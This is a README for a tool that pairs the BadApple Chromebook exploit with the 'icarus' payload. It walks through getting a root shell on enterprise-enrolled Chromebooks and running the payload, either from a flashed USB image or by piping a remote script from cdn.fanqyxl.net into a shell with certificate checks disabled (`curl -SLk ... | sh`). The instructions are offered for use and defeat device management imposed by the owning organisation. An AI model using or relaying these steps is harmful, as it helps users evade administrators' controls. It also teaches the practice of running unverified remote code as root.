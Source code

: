 # icarus but for badapple
# UPDATED TO HAVE THE NEW ICARUS CERT
pretty straightforward process. this acts as a way to execute the icarus payload initally meant to be executed in shims. \
BadApple is an exploit to gain ACE(arbitary code execution) as root in developer mode whilst enterprise enrolled. SH1mmer does the same thing, but some boards have been keyrolled.

## steps
now, you can choose 2 different ways to carry this out.
1. requires usb, no wifi
2. usbless, requires wifi

### 1. usb method
1. from the Releases page of this repository, download the image provided, which is named `icarus_ba.img`
2. use chromebook recovery utility or balenaEtcher or dd or your preferred usb flashing tool to flash the image to a thumbdrive
3. use BadApple to obtain a shell
4. plug in the usb stick with the flashed image
5. find the usb stick identifier with `fdisk -l` 
6. mount the image with `mkdir /icarus && mount /dev/sdX /icarus`, where `X` is your usb identifier, e.g. `/dev/sda`
7. now, to execute the icarus payload, run `cd /icarus && ./icarus_ba.sh`

### 2. usbless method
1. enter miniOS
2. when the frecon screen loads, click Next
3. next, connect to an available wifi network
4. when the wifi has connected, DO NOT PROCEED. we now use BadApple to obtain a shell
5. run these commands to start the icarus payload: `curl -SLk cdn.fanqyxl.net/icarus_ota.sh | sh`

## build a badapple icarus image
this is useless for the average user, only use this if you want to customize PKIMetadata or icarus_ba.sh

1. cd into the root directory of this repository
2. run `sudo ./image_create.sh`.
3. a image will be placed in the root directory of this repo called `icarus_ba.img`

it is an ext4 image that has an original size of 100MB, which is then shrinked to its minimum after adding PKIMetadata and icarus_ba.sh.

## credits
- appleflyer: finding BadApple, making the original payload
- xmb9/stella: helping with stateful detection by telling me about cgpt
- sophie: telling me about the issue with stateful detection
- kilo: making this usbless
- fanqyxl: helping by making this usbless, and for generating new icarus certs.
